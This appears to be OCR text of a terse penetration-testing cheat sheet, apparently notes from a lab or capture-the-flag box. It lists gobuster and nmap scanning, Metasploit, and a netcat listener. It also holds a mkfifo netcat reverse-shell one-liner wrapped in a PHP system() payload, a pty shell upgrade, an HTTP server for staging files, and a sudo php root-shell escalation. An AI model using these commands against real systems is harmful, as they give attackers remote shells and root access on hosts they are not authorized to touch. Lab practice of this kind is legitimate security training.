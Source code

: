 gobuster dir -u http://10.10.10.121/ -w /usr/share/dirb/wordlists/common.txt
nmap -sC -sV -Pn <IP>
msfconsole
	show options, shelll
nc -lvnp 1234
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> 1234 >/tmp/f  -> <?php system (xxx); ?>
python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -m http.server 8000 

CMD="/bin/sh"
sudo php -r "system('$CMD');"

